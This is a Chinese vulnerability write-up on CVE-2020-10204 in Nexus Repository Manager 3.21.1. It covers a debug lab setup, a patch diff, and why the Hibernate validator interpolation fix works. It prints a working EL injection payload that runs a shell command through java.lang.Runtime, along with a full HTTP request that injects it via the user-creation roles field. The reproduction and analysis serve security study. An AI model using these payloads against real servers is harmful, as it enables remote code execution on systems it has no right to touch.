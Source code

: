 # CVE-2020-10204 Nexus Repository Manager 远程执行代码漏洞

### 一、漏洞简介

### 二、漏洞影响

所有以前的Nexus Repository Manager 3.x OSS / Pro最高版本包括3.21.1

### 三、复现过程

**环境搭建**

使用https://hub.docker.com/r/sonatype/nexus3/tags,pull下漏洞版本的docker


```
docker pull sonatype/nexus3:3.21.1
```

然后切成root用户进入容器修改启动项/opt/sonatype/nexus/bin/nexus


```bash
run)

$INSTALL4J_JAVA_PREFIX exec "$app_java_home/bin/java"  -Xdebug -server -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=8888 -Dinstall4j.jvmDir="$app_java_home" -Dexe4j.moduleName="$prg_dir/$progname" "-XX:+UnlockDiagnosticVMOptions" "-Dinstall4j.launcherId=245" "-Dinstall4j.swt=false" "$vmov_1" "$vmov_2" "$vmov_3" "$vmov_4" "$vmov_5" $INSTALL4J_ADD_VM_PARAMS -classpath "$local_classpath" com.install4j.runtime.launcher.UnixLauncher run 9d17dc87 0 0 org.sonatype.nexus.karaf.NexusMain
```

![](images/15891952748681.png)


然后在https://github.com/sonatype/nexus-public下载源码,导入idea,然后配好远程配置连上去即可调试。

![](images/15891952821296.png)


### 漏洞分析

我们先来diff一下3.21.0和3.21.2的区别,找一下官方修复的痕迹

![](images/15891952904061.png)


可以看到有很明显的漏洞修复痕迹,EL表达式注入的限制被绕过了,其实我们看到测试文件


```bash
@Test
  public void testStripJavaEl_bugged_interpolator() {
    String test = "$\\A{badstuffinhere}";
    String result = underTest.stripJavaEl(test);
    assertThat(result, is("{badstuffinhere}"));
  }
```

也可以直接知道绕过方法,这里我直接给我rce的poc


```bash
$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/sssss')}
```

为什么增加了\A还不影响表达式的解析呢,这个我后面说,先构造出完整poc

那么我们找一下哪些接口会使用

![](images/15891953139257.png)


可以看到总过有三处,以第一处Roles为例,

![](images/15891953206381.png)


可以找到有多处注解使用的地方,比如说新建用户/更新用户,构造Poc如下


```bash
POST /service/extdirect HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Nexus-UI: true
NX-ANTI-CSRF-TOKEN: 0.029301195082771514
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 350
Connection: close
Referer: http://127.0.0.1:8081/
Cookie: NX-ANTI-CSRF-TOKEN=0.029301195082771514; NXSESSIONID=7eaf0643-2707-445a-b17d-aedced6db8e5

{"action":"coreui_User","method":"create","data":[{"userId":"3","version":"","firstName":"test","lastName":"test","email":"test@test.com","status":"active","roles":["$\\X{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/rce')}"],"password":"admin"}],"type":"rpc","tid":33}
```

![](images/15891953362024.png)


以及其他几处注解使用的地方

![](images/15891953423095.png)


还有一个问题为什么增加\A不会影响表达式的解析呢?

在/org/hibernate/validator/hibernate-validator/6.1.0.Final/hibernate-validator-6.1.0.Final.jar!/org/hibernate/validator/messageinterpolation/AbstractMessageInterpolator.class对传入的字符串进行了两次处理,

原本的字符串为`Missing roles: [$\B{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/rce')}]`

然后第一次处理后的结果

![](images/15891953536755.png)


第二次处理后的结果

![](images/15891953598193.png)


最后解析的还是`${xxxx}`这样子。

我在3.21.1版本测试`$\\\B{}`这样也是可以执行的,但是增加替换规则只是限制了A啊,那这样不就还是可以绕过嘛?

![](images/15891953728794.png)


然后我启了一个3.21.2版本的docker,测试发现并不行,很困惑,这里我跟一下原因。

在我跟到/org/hibernate/validator/messageinterpolation/AbstractMessageInterpolator.class发现大致调用堆栈是差不多的

![](images/15891953799036.png)


但是再往下就有区别的,3.21.0版本调用了/org/hibernate/validator/messageinterpolation/ResourceBundleMessageInterpolator.class@InterpolationTerm,而3.21.2版本调用的是/org/hibernate/validator/messageinterpolation/ParameterMessageInterpolator.class@InterpolationTerm,但是最开始的区别并不是这里,这两个类都是继承了AbstractMessageInterpolator,然后重写的public String interpolate(Context context, Locale locale, String term)方法不同,

ParameterMessageInterpolator.class@InterpolationTerm会进行表达式的检测


```java
public String interpolate(Context context, Locale locale, String term) {
        if (InterpolationTerm.isElExpression(term)) {
            LOG.warnElIsUnsupported(term);
            return term;
        } else {
            ParameterTermResolver parameterTermResolver = new ParameterTermResolver();
            return parameterTermResolver.interpolate(context, term);
        }
    }
```

如果表达式以`$`开头,会直接打印warning,然后返回表达式字符串。

![](images/15891954008891.png)


但是这里是hibernate包中的,我们需要去找到源头,也就是nexus开发者是怎么去修复的呢?

在一阵搜索中,我在nexus-public-release-3.22.0-02/components/nexus-validation/src/main/java/org/sonatype/nexus/validation/ValidationModule.java找到了

![](images/15891954073524.png)


通过搜索资料了解到Hibernate Validator提供了ParameterMessageInterpolator来处理消息,并且不解析使用$的表达式,也就是说即使绕过了replace的地方,也不会作为表达式进行解析,而是直接返回了。

### 参考链接

https://xz.aliyun.com/t/7559